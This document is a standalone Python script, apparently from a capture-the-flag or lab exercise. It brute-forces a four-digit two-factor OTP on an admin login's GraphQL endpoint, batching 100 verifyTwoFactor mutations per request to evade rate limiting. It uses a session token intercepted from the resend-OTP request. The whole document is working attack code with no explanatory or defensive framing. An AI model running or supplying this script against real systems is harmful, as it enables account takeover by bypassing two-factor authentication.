```python
import requests
import json
import time

URL = "http://IP:PORT/graphql"
TOKEN = "<grab it when intercept the resend OTP request in admin login>"
BATCH_SIZE = 100

def send_batch(start, end):
    queries = []
    for i in range(start, end + 1):
        otp = str(i).zfill(4)
        queries.append({
            "query": """
                mutation VerifyTwoFactor($token: String!, $otp: String!) {
                  verifyTwoFactor(token: $token, otp: $otp) {
                    token
                    user { id email }
                  }
                }
            """,
            "variables": {
                "token": TOKEN,
                "otp": otp
            }
        })

    headers = {
        "Content-Type": "application/json"
    }

    try:
        response = requests.post(URL, json=queries, headers=headers, timeout=10)
        try:
            result = response.json()
        except json.JSONDecodeError:
            print(f"[!] JSON error. Status {response.status_code}. Body:\n{response.text}")
            return False

        for r in result:
            if "data" in r and r["data"].get("verifyTwoFactor"):
                print("[+] SUCCESS!")
                print(json.dumps(r["data"]["verifyTwoFactor"], indent=2))
                return True
        return False

    except requests.exceptions.RequestException as e:
        print(f"[!] Request error: {e}")
        return False

# Brute loop
for i in range(1000, 10000, BATCH_SIZE):
    print(f"[*] Trying {i} to {min(i + BATCH_SIZE - 1, 9999)}")
    success = send_batch(i, min(i + BATCH_SIZE - 1, 9999))
    if success:
        break
    time.sleep(1.5)
```
